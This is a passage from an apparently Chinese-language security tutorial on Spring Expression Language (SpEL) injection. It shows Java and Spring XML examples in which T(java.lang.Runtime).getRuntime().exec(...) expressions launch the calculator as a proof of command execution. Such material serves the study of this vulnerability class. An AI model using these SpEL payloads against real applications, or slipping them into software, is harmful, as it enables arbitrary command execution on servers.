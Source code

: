 Expression 中使用示例：

JAVA

```
ExpressionParser parser = new SpelExpressionParser();
// java.lang 包类访问
Class<String> result1 = parser.parseExpression("T(String)").getValue(Class.class);
System.out.println(result1);
//其他包类访问
String expression2 = "T(java.lang.Runtime).getRuntime().exec('open /Applications/Calculator.app')";
Class<Object> result2 = parser.parseExpression(expression2).getValue(Class.class);
System.out.println(result2);
//类静态字段访问
int result3 = parser.parseExpression("T(Integer).MAX_VALUE").getValue(int.class);
System.out.println(result3);
//类静态方法调用
int result4 = parser.parseExpression("T(Integer).parseInt('1')").getValue(int.class);
System.out.println(result4);
```

#### Demo

在前面字面值的 Demo 中修改 `Demo.xml` 即可

XML

```
<?xml version="1.0" encoding="UTF-8"?>  
<beans xmlns="http://www.springframework.org/schema/beans"  
 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
 xsi:schemaLocation="http://www.springframework.org/schema/beans  
 http://www.springframework.org/schema/beans/spring-beans-3.0.xsd ">  
  
    <bean id="helloWorld" class="com.drunkbaby.pojo.HelloWorld">  
        <property name="message" value="#{'Drunkbaby'} is #{T(java.lang.Math).random()}" />  
    </bean>  
  
</beans>
```

![img](https://drun1baby.top/2022/09/23/Java-%E4%B9%8B-SpEL-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/TypeTestSuccess.png)

#### 恶意利用 —— 弹计算器

修改 value 中类类型表达式的类为 `Runtime` 并调用其命令执行方法即可：

XML

```
<bean id="helloWorld" class="com.drunkbaby.pojo.HelloWorld">  
    <property name="message" value="#{'Drunkbaby'} is #{T(java.lang.Runtime).getRuntime.exec('calc')}" />  
</bean>
```
